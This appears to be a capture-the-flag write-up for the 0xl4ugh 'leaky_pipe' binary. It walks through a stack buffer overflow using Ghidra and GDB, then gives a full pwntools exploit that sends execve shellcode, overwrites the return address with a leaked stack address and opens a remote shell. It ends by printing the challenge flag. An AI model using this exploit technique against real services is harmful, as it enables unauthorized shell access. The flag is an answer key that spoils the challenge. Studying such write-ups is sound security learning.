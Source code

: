 # ctf.0xl4ugh_leaky_pipe

### Solution
We were given a binary.
```
file leaky_pipe
leaky_pipe: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=87689ef50fdd96e017be4819a94fe97f3bac65ce, for GNU/Linux 3.2.0, not stripped
```
We first run it to see what it does
```
We have just fixed the plumbing systm, let's hope there's no leaks!
>.> aaaaah shiiit wtf is dat address doin here...  0x7fffb50a6c80
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./leaky_pipe
```
It seems like a buffer overflow because there is a segmentation fault. Moreover there is also a interesting memory address. Let's look it into ghidra.
```
undefined8 main(void)

{
  basic_ostream *pbVar1;
  basic_ostream<char,std::char_traits<char>> *this;
  ssize_t sVar2;
  undefined8 uVar3;
  undefined local_28 [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "We have just fixed the plumbing systm, let\'s hope there\'s no leaks!");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           ">.> aaaaah shiiit wtf is dat address doin here...  ");
  this = (basic_ostream<char,std::char_traits<char>> *)
         std::basic_ostream<char,std::char_traits<char>>::operator<<
                   ((basic_ostream<char,std::char_traits<char>> *)pbVar1,local_28);
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            (this,std::endl<char,std::char_traits<char>>);
  sVar2 = read(0,local_28,0x40);
  if (sVar2 < 5) {
    pbVar1 = std::operator<<((basic_ostream *)std::cout,"no smol input plz");
    std::basic_ostream<char,std::char_traits<char>>::operator<<
              ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
               std::endl<char,std::char_traits<char>>);
    uVar3 = 0xffffffff;
  }
  else {
    uVar3 = 0;
  }
  return uVar3;
}
```
This is the main funtion 
We can see that there is an array of 32 elements <code> local_28 [32] </code> that can take an input of some data <code> read(0,local_28,0x40); </code> <br>
Now it's time to use this array to overflow and overwrite the rbp register.
Let's look it into GDB.
```
We have just fixed the plumbing systm, let's hope there's no leaks!
>.> aaaaah shiiit wtf is dat address doin here...  0x7fffffffe010
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000555555555295 in main ()
(gdb) info registers
rax            0x0                 0
rbx            0x0                 0
rcx            0x7ffff7bb3e2e      140737349631534
rdx            0x40                64
rsi            0x7fffffffe010      140737488347152
rdi            0x0                 0
rbp            0x4141414141414141  0x4141414141414141
rsp            0x7fffffffe038      0x7fffffffe038
r8             0x0                 0
r9             0x7fffffffde00      140737488346624
r10            0xfffffffffffff286  -3450
r11            0x246               582
r12            0x5555555550a0      93824992235680
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x555555555295      0x555555555295 <main+252>
eflags         0x10246             [ PF ZF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
```
We see that the RBP register is overwritten with the hex value 41 that means "A" as we given in input and the RIP register now points at <code>0x555555555295</code> with offset <code> <main+252> </code> <br>
Now we have analyzed the binary. Let's go to write the exploit.
First we need to calculate the offset that is 32 bytes + 8 bytes to overflow the RBP register. We need also a shell code that will pop up the shell. <br>
This is the exploit that I create 
```
# https://ctf.0xl4ugh.com/
from pwn import *

elf = ELF("leaky_pipe")
r = remote("ctf.0xl4ugh.com", 4141)
offset = 40
r.recvuntil(">.> aaaaah shiiit wtf is dat address doin here...")
leak = int(r.recvline().strip(), 16)
print(hex(leak))
# Prepare the shellcode
shellcode = asm(shellcraft.sh())
payload = b""
# This shellcode is originally from: http://shell-storm.org/shellcode/files/shellcode-603.php
# This shellcode will pop a shell when we run it
payload += b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
# Padding to the return address
payload += b"A" * (40 - len(payload))
# Overwrite the return address with the address of the start of our input
payload += p64(leak)
# Send the payload, drop to an interactive shell to use the shell we pop
r.send(payload)
r.interactive()

# flag --> Oxl4ugh{waaaah_yaboooooy_kol_daaa_shellcode}
```
